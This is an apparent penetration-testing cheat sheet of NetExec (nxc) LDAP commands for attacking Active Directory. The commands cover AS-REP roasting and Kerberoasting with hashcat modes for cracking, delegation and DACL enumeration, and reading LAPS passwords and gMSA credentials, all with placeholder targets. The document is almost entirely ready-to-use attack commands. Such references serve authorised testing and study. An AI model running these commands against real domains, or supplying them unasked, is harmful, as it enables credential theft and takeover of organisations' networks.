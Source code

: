 # nxc

% nxc-ldap, netexec, windows, Active directory
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/AD/RECON 

## ldap - LDAP connection
edit /etc/hosts
```bash
nxc ldap <ip> -u <user> -p <password> -d <domain_fqdn> --no-smb
```

## ldap - LDAP Machine Account Quota
```bash
nxc ldap <ip> -u <user> -p <password> -d <domain_fqdn> --no-smb -M maq
```

## ldap - LDAP signing and binding
```bash
nxc ldap <ip> -u <user> -p <password> -d <domain_fqdn> --no-smb -M ldap-checker
```

## ldap - ASREPRoast enum without authentication
User can be a wordlist too (user.txt)
Hashcat format  -m 18200 
```bash
nxc ldap <ip> -u <user> -p '' --asreproast ASREProastables.txt --kdcHost <dc_name>
```

## ldap - ASREPRoast enum with authentication
Hashcat format  -m 18200 
```bash
nxc ldap <ip> -u <user> -p '<password>' --asreproast ASREProastables.txt --kdcHost <dc_name>
```

## ldap - Kerberoasting
Hashcat format  -m 13100
```bash
nxc ldap <ip> -u <user> -p '<password>' --kerberoasting kerberoastables.txt --kdcHost <dc_name>
```

## ldap - Unconstrained delegation
List of all computers et users with the flag TRUSTED_FOR_DELEGATION
```bash
nxc ldap <ip> -u <user> -p '<password>' --trusted-for-delegation
```


## ldap - read DACLs of an account
```bash
nxc ldap <dc_name> -k --kdcHost <dc_name> -M daclread -o TARGET=<user> ACTION=read
```


## ldap - read DACLs of an principal has over a target
```bash
nxc ldap <dc_name> -k --kdcHost <dc_name> -M daclread -o TARGET=<target_user> -o PRINCIPAL=<user> ACTION=read
```

## ldap - read LAPS
```bash
nxc ldap <dc_name> -k --kdcHost <dc_name>  -u <user> -p '<password>'  --module laps
```


## ldap - read gmsa
```bash
nxc ldap <dc_name> -k --kdcHost <dc_name>  -u <user> -p '<password>'  --gmsa
```

